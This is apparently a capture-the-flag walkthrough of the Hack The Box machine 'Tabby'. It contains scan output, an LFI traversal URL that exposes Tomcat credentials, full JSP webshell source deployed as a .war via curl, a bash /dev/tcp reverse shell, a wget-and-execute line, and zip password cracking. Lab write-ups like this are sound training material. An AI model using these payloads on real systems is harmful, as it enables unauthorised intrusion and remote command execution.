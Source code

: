 # :cat: Tabby :heart_eyes_cat:

### Initial Scans

**Quick:**

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**Deep:**

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
| ssh2-enum-algos: 
|   kex_algorithms: (9)
|   server_host_key_algorithms: (5)
|   encryption_algorithms: (6)
|   mac_algorithms: (10)
|_  compression_algorithms: (2)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|_      CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.194
|     
...
| vulners: 
|   cpe:/a:apache:http_server:2.4.41: 
|       CVE-2020-11984  7.5     https://vulners.com/cve/CVE-2020-11984
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|_      CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
8080/tcp open  http    Apache Tomcat
| http-auth-finder: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.194
|   url                                         method
|   http://10.10.10.194:8080/host-manager/html  HTTP: Basic
|_  http://10.10.10.194:8080/manager/html       HTTP: Basic
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.194
|     
...
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**Port 80:**

- Nikto:

  ![nikto80](./tabby/nikto80.png)

- Dirb:

  ![dirb80](./tabby/dirb80.png)

- Gobuster:

  ![gobuster80](./tabby/gobuster80.png)

- Whatweb:

  ```bash
  http://10.10.10.194 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[sales@megahosting.com,sales@megahosting.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.194], JQuery[1.11.2], Modernizr[2.8.3-respond-1.4.2.min], Script, Title[Mega Hosting], X-UA-Compatible[IE=edge] 
  ```

  

  

**Port 8080:**

- Nikto:

  ![nikto8080](./tabby/nikto8080.png)

- Dirb:

  ![dirb8080](./tabby/dirb8080.png)

- Gobuster:

  ![gobuster8080](./tabby/gobuster8080.png)

- Whatweb:

```bash
http://10.10.10.194:8080 [200 OK] Apache-Tomcat, Country[RESERVED][ZZ], IP[10.10.10.194], Title[Apache Tomcat]
```





## Getting User

Add megahosting.htb to /etc/hosts

```bash
10.10.10.194    megahosting.htb
```

Then clear cache in firefox and reopen

![megahosting](C:\Users\kevinkim\Documents\Repos\HTB\tabby\megahosting.png)

We see the statement at the top in http. Maybe LFI works?

![passwd](C:\Users\kevinkim\Documents\Repos\HTB\writeups\tabby\passwd.png)

And it looks like it does!

From here, send this to burpsuite's repeater to test out the file paths to see if they return anything. And we can read the tomcat users.xml file!

```bash
http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

Which has user and pass of 

```bash
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```



This lets us into the Host Manager app:

![hostmanager](./tabby/hostmanager.png)



From here, we can upload a .war reverse web shell, but we don't have the deploy location...

Test  if we can just curl/manually touch it by navigating to 

```bash
http://10.10.10.194:8080/manager/text/deploy
```

And it returns a valid response! So doing a curl post upload will work. 

Let's create the shell and then catch it. We can also create an msfvenom payload, but let's try something new, let's use a new git repo with webshells and clone it:

```bash
git clone https://github.com/tennc/webshell.git

cp ./jsp/cmdjsp.jsp ~/Documents/htb/tabby/
```

Now modify the jsp file so it looks like:

```jsp
// note that linux = cmd and windows = "cmd.exe /c + cmd" 

<FORM METHOD=POST ACTION='cmdjsp.jsp'>
<INPUT name='pwn' type=text>
<INPUT type=submit value='Run'>
</FORM>

<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("pwn");
   String output = "";

   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) {
            output += s;
         }
      }
      catch(IOException e) {
         e.printStackTrace();
      }
   }
%>

<pre>
<%=output %>
</pre>


```

Make it into a war file:

```bash
zip cmdjsp.war cmdjsp.jsp
```

now upload it with curl:

```bash
curl -T cmdjsp.war -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/app
```

Now navigating to `http://10.10.10.194:8080/app/cmdjsp.jsp` will pull up a webshell we can run commands from

Now let's create the reverse shell in a `shell.sh` file:

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
```

Now in the command box enter in:

```bash
wget -P /tmp http://10.10.14.8/shell.sh && bash /tmp/shell.sh
```



After stabilizing and exploring around we find an interesting zip file:

```bash
tomcat@tabby:/var/www/html/files$ ls
16162020_backup.zip
```

Let's transfer it back and open it:

```bash
#see how to base64 transfer in the tutorials
unzip backup.zip
```

And it wants a password. Let's crack it with johntheripper:

```bash
zip2john backup.zip > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
	Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    admin@it         (backup.zip)
    1g 0:00:00:00 DONE (2021-02-23 12:22) 1.388g/s 14392Kp/s 14392Kc/s 14392KC/s adnc153..adenabuck
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
```

And we get the password and user flag



## Priv Esc

Running linpeas returns LXD group privileges

Following this guide, we can mount the directory and become root: https://www.hackingarticles.in/lxd-privilege-escalation/



